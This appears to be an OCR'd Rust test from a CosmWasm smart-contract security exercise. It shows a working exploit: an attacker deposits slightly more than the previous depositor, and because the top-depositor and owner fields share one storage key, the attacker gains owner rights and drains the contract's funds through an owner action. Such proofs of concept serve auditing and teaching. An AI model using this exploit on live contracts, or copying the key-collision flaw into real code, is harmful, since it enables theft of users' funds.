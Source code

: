 ```rust
        app.execute_contract(
            Addr::unchecked("grug"),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(1_000, DENOM)],
        )
        .unwrap();
        let grug_bal = app.wrap().query_balance("grug", DENOM).unwrap();
        assert_eq!(grug_bal.amount, Uint128::zero());

        // "hacker" deposits 1_001 tokens, is now "TOP_DEPOSITOR"
        app.execute_contract(
            Addr::unchecked("hacker"),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(1_001, DENOM)],
        )
        .unwrap();
        let hacker_bal = app.wrap().query_balance("hacker", DENOM).unwrap();
        assert_eq!(hacker_bal.amount, Uint128::zero());

        // Query top depositor
        let top: Addr = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::Top {})
            .unwrap();
        assert_eq!(top, Addr::unchecked("hacker"));

        // But "TOP_DEPOSITOR" and "OWNER" are both stored under the same key namespace of "address"
        let config: crate::msg::ConfigQueryResponse = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::Config {})
            .unwrap();
        assert_eq!(config.owner, Addr::unchecked("hacker"));

        // that's not good...
        // "hacker" queries balance of contract and sends themselves all the tokens
        let contract_bal = app.wrap().query_balance(contract_addr.clone(), DENOM).unwrap();
        let steal_funds_msg: cosmwasm_std::CosmosMsg = cosmwasm_std::CosmosMsg::Bank(cosmwasm_std::BankMsg::Send { 
            to_address: "hacker".to_string(), 
            amount: vec![coin(contract_bal.amount.u128(), DENOM)]
        });
        app.execute_contract(
            Addr::unchecked("hacker"),
            contract_addr.clone(),
            &ExecuteMsg::OwnerAction { 
                msg: steal_funds_msg
            },
            &[],
        )
        .unwrap();

        // Assert that hacker now has 2_001 tokens
        let hacker_bal = app.wrap().query_balance("hacker", DENOM).unwrap();
        assert_eq!(hacker_bal.amount, Uint128::new(2_001));

        // Assert that contract has none
        let contract_bal = app.wrap().query_balance(contract_addr.clone(), DENOM).unwrap();
        assert_eq!(contract_bal.amount, Uint128::zero());
    }
```
